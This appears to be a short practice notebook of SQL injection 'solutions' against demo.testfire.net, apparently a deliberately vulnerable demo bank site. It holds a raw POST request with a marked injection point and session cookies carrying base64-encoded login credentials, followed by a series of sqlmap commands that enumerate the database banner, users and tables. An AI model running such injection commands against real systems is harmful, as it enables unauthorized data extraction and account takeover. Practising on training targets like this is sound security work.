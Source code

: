## sqli solutions 
### http://demo.testfire.net/bank/account.aspx

```
POST /bank/transaction.aspx HTTP/1.1
Host: demo.testfire.net
Content-Length: 104
Cache-Control: max-age=0
Origin: http://demo.testfire.net
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3488.0 Safari/537.36 autochrome/red
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://demo.testfire.net/bank/transaction.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: amSessionId=15463717023; ASP.NET_SessionId=sek2c5bdxjyg4h45r5io3h45; amUserInfo=UserName=anNtaXRo&Password=RGVtbzEyMzQ=; amUserId=100116014; amCreditOffer=CardType=Gold&Limit=10000&Interest=7.9
Connection: close

__VIEWSTATE=%2FwEPDwUKMTYzNDg3OTA4NmRk&after=&before=1*

```

./sqlmap.py -r session.txt --banner
./sqlmap.py -r session.txt --banner --technique=U
./sqlmap.py -r session.txt --banner --technique=U --level 3 --risk 3
./sqlmap.py -r session.txt --banner --level 3 --risk 3
./sqlmap.py -r session.txt --banner --level 3 --risk 3
./sqlmap.py -r session.txt --banner --level 3 --risk 3
./sqlmap.py -r session.txt --users --level 3 --risk 3 --technique=B --dbms Microsoft Access
./sqlmap.py -r session.txt --users --level 3 --risk 3 --technique=B --dbms "Microsoft Access"
./sqlmap.py -r session.txt --tables --level 3 --risk 3 --technique=B --dbms "Microsoft Access"
./sqlmap.py -r session2.txt --tables --level 3 --risk 3  --dbms "Microsoft Access"
./sqlmap.py -r session2.txt --tables --level 3 --risk 3  --dbms "Microsoft Access" --code=302
./sqlmap.py -r session2.txt --tables --level 3 --risk 3  --dbms "Microsoft Access" --code=302 --techniqu=B
./sqlmap.py -r session2.txt --tables --level 3 --risk 3  --dbms "Microsoft Access" --code=302 --techniqu=B -p uid
